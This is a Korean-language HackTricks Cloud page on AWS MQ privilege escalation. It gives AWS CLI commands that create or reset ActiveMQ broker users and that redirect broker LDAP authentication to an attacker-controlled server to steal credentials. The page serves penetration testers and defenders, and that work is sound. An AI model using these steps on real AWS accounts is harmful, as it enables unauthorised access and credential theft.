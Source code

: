 # AWS - MQ Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## MQ

MQ에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

이 권한으로 **ActimeMQ 브로커에 새 사용자를 생성할 수 있습니다** (RabbitMQ에서는 작동하지 않음):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**잠재적 영향:** ActiveMQ를 탐색하여 민감한 정보에 접근

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

이 권한을 사용하면 **ActiveMQ 브로커에 새 사용자를 생성할 수 있습니다** (RabbitMQ에서는 작동하지 않음):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**잠재적 영향:** ActiveMQ를 통해 민감한 정보에 접근

### `mq:ListBrokers`, `mq:UpdateBroker`

브로커가 **ActiveMQ**와 함께 **LDAP**를 사용하여 권한 부여를 하는 경우, 공격자가 **제어하는 LDAP 서버**로 **구성**을 **변경**할 수 있습니다. 이렇게 하면 공격자는 **LDAP를 통해 전송되는 모든 자격 증명을 훔칠 수** 있게 됩니다.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
원래 ActiveMQ에 사용된 자격 증명을 찾을 수 있다면 MitM을 수행하고, 자격 증명을 훔쳐 원래 서버에서 사용한 다음 응답을 전송할 수 있습니다(아마도 훔친 자격 증명을 재사용하여 이를 수행할 수 있습니다).

**잠재적 영향:** ActiveMQ 자격 증명 훔치기

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
